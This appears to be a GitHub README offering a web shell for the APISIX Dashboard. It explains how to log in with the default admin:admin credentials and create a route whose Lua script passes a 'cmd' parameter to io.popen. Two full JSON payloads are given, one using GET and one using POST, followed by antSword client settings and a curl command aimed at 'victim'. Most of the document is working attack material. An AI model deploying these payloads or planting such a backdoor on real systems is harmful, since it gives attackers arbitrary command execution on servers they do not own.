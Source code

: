 # apisix-webshell-sample
apisix admin dashboard script RCE web shell sample

## APISIX - Authed RCE

APISIX Dashboard default at port 9080

and you can have default credit admin:admin to get admin login.

### create route and use 查看/watch edit json like this.

```json
{
  "uri": "/rceEndpoint",
  "name": "RCE{not same}",
  "script": "local _M = {} \n function _M.access(conf, ctx) \n local os = require('os')\n local args = assert(ngx.req.get_uri_args()) \n local f =        assert(io.popen(args.cmd, 'r'))\n local s = assert(f:read('*a'))\n ngx.say(s)\n f:close()  \n end \nreturn _M",
  "upstream": {
    "nodes": [
      {
        "host": "example.com",
        "port": 80,
        "weight": 1
      }
    ],
    "type": "roundrobin",
    "hash_on": "vars",
    "scheme": "http",
    "pass_host": "pass"
  },
  "status": 1
}
```

if you got schema error add script_id as id show when your route create complete.

and using **http://victim:port/rceEndpoint?cmd={your_command}**

to get an shell.

## antSword Settings

payload like

```json
{
  "uri": "/rceEndpoint",
  "name": "data",
  "script": "local _M = {} \n function _M.access(conf, ctx) \n local os = require('os')\n ngx.req.read_body() \n local args = assert(ngx.req.get_post_args()) \n local f = assert(io.popen(args.cmd, 'r'))\n local s = assert(f:read('*a'))\n ngx.say(s)\n f:close()  \n end \nreturn _M",
  "script_id": "0000000114514",
  "upstream": {
    "nodes": [
      {
        "host": "example.com",
        "port": 80,
        "weight": 1
      }
    ],
    "type": "roundrobin",
    "hash_on": "vars",
    "scheme": "http",
    "pass_host": "pass"
  },
  "status": 1
}
```

and setting data 

like 

target is **http://victim:port/rceEndpoint** 

password is cmd 

type is linuxcmd

manually:
```
curl http://victim:port/rceEndpoint -d "cmd={your_commnad}"
```

.....to be continued.
